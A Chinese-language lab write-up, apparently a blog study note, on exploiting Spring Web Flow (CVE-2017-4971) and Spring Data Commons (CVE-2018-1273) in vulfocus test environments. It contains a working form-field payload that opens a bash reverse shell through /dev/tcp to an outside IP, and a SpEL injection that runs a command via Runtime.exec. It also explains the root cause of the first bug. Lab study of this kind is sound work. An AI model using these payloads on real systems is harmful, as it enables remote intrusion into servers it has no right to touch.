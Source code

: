 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947808-1761637283.png)

```plain
然后还而已在集成化工具中进行命令执行
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947537-945147940.png)

- JAVAWEB-开发框架安全-Spring&Struts2

Spring

```plain
Spring框架是由于软件开发的复杂性而创建的。
1、cve_2017_4971-Spring Web Flow
影响版本：Spring WebFlow 2.4.0 - 2.4.4
参考：https://paper.seebug.org/322/
环境：http://vulfocus.io/#/dashboard


打开环境后，访问登录地址：http://123.58.236.76:36721/login，登录完成后跳转到http://123.58.236.76:36721/hotels/search
进行抓包，然后点击跳转地址：http://123.58.236.76:36721/hotels?searchString=&pageSize=10

最后访问地址：http://123.58.236.76:36721/hotels/booking?execution=e1s1，填写字段Credit Card #:和Credit Card Name:抓包
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947546-1948147594.png)

```plain
提交，抓取数据包，把数据包放出，跳转到页面
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134947986-481562714.png)

```plain
然后在点击confirm，进行抓包，进行数据包替换：
_eventId_confirm=&_csrf=e06e1d86-e083-45f7-b700-567b5f7f5d30&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/175.178.151.29/5566+0>%261")).start()=vulhub
其中csrf要与数据包的csrf一致。然后监听到会话。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134949302-433606573.png)

```plain
为什么要这样做呢？参考：https://www.cnblogs.com/cute-puli/p/13363752.html

总结一下，就是在订阅图书处，存在一个命令执行，直接调用了两个函数，这两个函数，一个是：addDefaultMappings ,一个是 addModelBindings。
其中，直接控制field这个值的函数是addDefaultMappings，且未做过滤，而addModelBindings是直接获取的java的一个配置文件，由配置文件来确定是否有 binder 节点，如果有，就无法触发代码执行。所以条件有两个：
（1）binder节点为空；
（2） useSpringBeanBinding 默认值（false）未修改。
由此可实际在代码中找到该页面，节点为空（代替命令执行语句）+默认值为false（点击Confirm按钮）

这个是要知道源码，需要知道在哪里触发了这个漏洞。这个是前提条件，在黑盒和白盒中条件不一样，有一些可能需要白盒。
2、cve_2018_1273-Spring Data Commons
Spring Data Commons 1.13 - 1.13.10 (Ingalls SR10)
Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)
Spring Data Commons 2.0 to 2.0.5 (Kay SR5)
Spring Data REST 3.0 - 3.0.5 (Kay SR5)

访问：http://123.58.236.76:32594/users
提交抓取数据包，把数据包payload更改就可以了。这个不需要特定地址，只要有POST数据包提交就可以了。

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
但是发生了错误。
```